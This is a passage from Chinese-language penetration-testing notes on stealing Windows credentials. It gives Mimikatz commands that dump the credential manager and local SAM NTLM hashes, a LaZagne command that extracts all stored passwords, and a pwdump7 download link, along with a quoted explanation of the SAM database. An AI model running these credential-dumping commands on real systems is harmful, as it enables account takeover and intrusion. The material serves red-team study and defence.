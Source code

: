 #### 导出

利用mimikatz直接获取

```
Mimikatz> privilege::debug
Mimikatz> sekurlsa::credman
```

### 用户文件中获取身份凭证

#### 工具

laZagne

`laZagne all -quiet -oN`

## 获取Hash身份凭证

### 通过SAM数据库获取本地用户Hash凭证

什么是SAM

>The **Security Account Manager** (**SAM**) is a database file[[1\]](https://en.wikipedia.org/wiki/Security_Account_Manager#cite_note-1) in Windows XP, Windows Vista, Windows 7, 8.1 and 10 that stores users' passwords. It can be used to authenticate local and remote users. Beginning with Windows 2000 SP4, Active Directory authenticates remote users. SAM uses cryptographic measures to prevent unauthenticated users accessing the system.
>
>The user passwords are stored in a hashed format in a [registry hive](https://en.wikipedia.org/wiki/Windows_Registry#Hives) either as a LM hash or as a NTLM hash. This file can be found in `%SystemRoot%/system32/config/SAM` and is mounted on `HKLM/SAM`.
>
>In an attempt to improve the security of the SAM database against offline software cracking, Microsoft introduced the SYSKEY function in Windows NT 4.0. When SYSKEY is enabled, the on-disk copy of the SAM file is partially encrypted, so that the password hash values for all local accounts stored in the SAM are encrypted with a key (usually also referred to as the "SYSKEY"). It can be enabled by running the `syskey` program



#### 直接获取NTLM hash

1. Mimikatz

```
Mimikatz> privilege::debug
Mimikatz> token::elevate
Mimikatz> lsadump::sam
```



2.pwdump7

```
http://passwords.openwall.net/b/pwdump/pwdump7.zip
```
